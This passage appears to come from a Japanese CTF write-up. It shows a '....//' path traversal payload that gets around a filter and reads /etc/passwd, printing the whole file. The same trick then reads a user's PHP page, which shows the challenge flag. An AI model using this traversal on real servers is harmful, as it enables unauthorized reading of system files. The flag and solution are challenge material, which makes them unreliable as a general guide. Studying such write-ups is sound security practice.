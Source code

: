 `?path=....//....//....//....//etc/passwd` にアクセスすると `/etc/passwd` の内容が取得できました。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:109::/var/run/dbus:/bin/false
lxd:x:107:65534::/var/lib/lxd/:/bin/false
uuidd:x:108:113::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
rooney:x:1000:1000:,,,:/home/rooney:/bin/false
th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash
```

`th1sizveryl0ngus3rn4me` というユーザがいるようです。`/~th1sizveryl0ngus3rn4me/` にアクセスすると `Invalid Device` と表示されました。

`?path=....//....//....//....//home/th1sizveryl0ngus3rn4me/public_html/index.php` にアクセスするとフラグが得られました。

```
<?php


if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']), 'mobile')!==false){
        if(strpos($_SERVER['HTTP_REFERER'], 'th1sizveryl0ngus3rn4me')!==false){
                    echo 'ASIS{I_l0V3_Us3rD1r_Mpdul3!!}';
                        }else
                                    echo 'Hot-linking is disabled';
}else
        echo 'Invalid Device';


?>
```
